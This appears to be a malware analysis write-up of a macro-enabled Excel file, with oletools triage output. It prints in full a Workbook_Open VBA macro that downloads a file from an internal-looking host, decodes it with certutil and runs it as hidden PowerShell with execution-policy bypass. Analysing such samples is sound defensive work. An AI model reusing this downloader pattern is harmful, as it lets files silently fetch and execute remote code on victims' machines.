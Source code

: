 # sheetsForFinancial.xlsm

# Identification:

**FileName:** sheetsForFinancial.xlsm

**SHA256:** 16e6489b81a41f0bfc2bc9bb0165b624c51ed4fecf6438c73a5ee6501caf34dc

**FileSize:** 20480 (bytes)

<br>

# Analysis:

The analysis was started by checking if the excel contain macro. For this Oletools were used. Initial triage on the sample was carried out using oleid to check for any macro or remote template injections using the command. 

 `oleid sheetsForFinancial.xlsm`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: sheetsForFinancial.xlsm
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Excel 2007+      |info      |
                        |Macro-Enabled       |          |
                        |Workbook (.xlsm)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                        |                    |          |macros. Suspicious
                        |                    |          |keywords were found. Use
                        |                    |          |olevba and mraptor for
                        |                    |          |more info.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |0                   |none      |External relationships
    Relationships       |                    |          |such as remote templates,
                        |                    |          |remote OLE objects, etc
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this excel file contain VBA macro.

Using the oledump tool, it was then checked which stream contains the macro as shown below.

`oledump.py sheetsForFinancial.xlsm`

    A: xl/vbaProject.bin      
     A1:       468 'PROJECT'  
     A2:        86 'PROJECTwm'
     A3: M    7829 'VBA/Module
     A4: m    1196 'VBA/Sheet1
     A5: m    1204 'VBA/ThisWo
     A6:      3130 'VBA/_VBA_P
     A7:      4020 'VBA/__SRP_
     A8:       272 'VBA/__SRP_
     A9:      3892 'VBA/__SRP_
    A10:       220 'VBA/__SRP_
    A11:       680 'VBA/__SRP_
    A12:       106 'VBA/__SRP_
    A13:       464 'VBA/__SRP_
    A14:       106 'VBA/__SRP_
    A15:       562 'VBA/dir'  

Here, the streams 3, 4 and 5 seems to contain macro.

Again using the oledump tool, the macro from stream 3 was dumped using the command.

`oledump.py -s 3 -v sheetsForFinancial.xlsm`

    Attribute VB_Name = "Module1"
    Function genStr(Length As Integer)
    Dim chars As Variant
    Dim x As Long
    Dim str As String
    
      If Length < 1 Then
        Exit Function
      End If
    
    chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
      "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
      "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
      "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
      "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
      "W", "X", "Y", "Z")
      For x = 1 To Length
        Randomize
        str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
      Next x
    
      randStr = str
    
    End Function
            Sub Workbook_Open()
                Dim str1: genStr (17)
                Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
                str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
                Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
                str3 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
                xHttp.Send
                Dim str9: genStr (10)
                With bStrm
                .Type = 1 '//binary
                .Open
                .write xHttp.responseBody
                .savetofile "encd.crt", 2 '//overwrite
                End With
                str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
                Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
            End Sub



<br>

# Detection with Yara Rule:


